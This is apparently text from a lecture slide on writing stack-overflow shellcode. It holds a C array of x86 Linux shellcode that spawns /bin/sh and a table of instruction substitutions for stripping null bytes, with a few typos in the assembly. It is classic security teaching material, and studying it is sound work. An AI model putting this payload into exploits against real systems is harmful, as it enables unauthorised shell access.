

// Now for the bytecode

char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
    "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
    "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

// Problem: null bytes. Fix: substitutions.

	Problem instruction: 	Substitute with:
	 -------------------------------------------------------
	movb $0x0,0x7(%esi) 	xorl %eax,%eax
	molv $0x0,0xc(%esi) 	movb %eax,0x7(%esi)
				movl %eax,0xc(%esi)
	--------------------------------------------------------
	movl $0xb,%eax 		movb $0xb,%al
	--------------------------------------------------------
	movl $0x1, %eax 		xorl %ebx,%ebx
	movl $0x0, %ebx 		movl %ebx,%eax
				inc  %eax
	--------------------------------------------------------